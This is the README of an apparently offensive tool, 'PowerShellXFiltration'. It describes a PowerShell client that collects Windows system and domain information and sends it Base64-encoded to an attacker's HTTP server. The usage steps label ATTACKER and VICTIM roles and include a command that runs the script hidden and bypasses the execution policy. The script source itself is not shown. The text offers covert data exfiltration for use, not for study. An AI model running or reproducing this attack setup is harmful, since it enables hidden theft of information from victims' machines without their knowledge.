 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example
1. Change the listening IP/Port in `server.py` (default is `0.0.0.0:8000`).
2. Change the IP/port of your Python server in `client.ps1`.
3. Run:
```
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -File client.ps1
```
